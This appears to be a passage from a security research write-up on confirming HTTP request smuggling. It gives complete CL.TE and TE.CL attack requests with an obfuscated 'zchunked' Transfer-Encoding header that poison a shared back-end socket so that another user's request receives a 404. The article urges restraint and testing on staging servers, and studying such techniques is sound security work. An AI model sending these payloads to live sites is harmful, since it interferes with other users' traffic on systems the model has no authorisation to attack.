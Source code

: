 Some sites have multiple distinct back-end systems, with the front-end looking at each request's method, URL, and headers to decide where to route it. If the victim request gets routed to a different back-end from the attack request, the attack will fail. As such, the 'attack' and 'victim' requests should initially be as similar as possible.

If the target request looks like:

POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
Then an attempt at CL.TE socket poisoning would look like:

POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Transfer-Encoding: zchunked

17
=x&q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: bPOST /search HTTP/1.1
Host: example.com
… 
If the attack is successful the victim request (in green) will get a 404 response.

The TE.CL attack looks similar, but the need for a closing chunk means we need to specify all the headers ourselves and place the victim request in the body. Ensure the Content-Length in the prefix is slightly larger than the body:

POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: zchunked

96
GET /404 HTTP/1.1
X: x=1&q=smugging&x=
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

x=
0

POST /search HTTP/1.1
Host: example.com  
If the site is live, another user's request may hit the poisoned socket before yours, which will make your attack fail and potentially upset the user. As a result, this process often takes a few attempts, and on high-traffic sites may require thousands of attempts. Please exercise both caution and restraint, and target staging servers where possible.

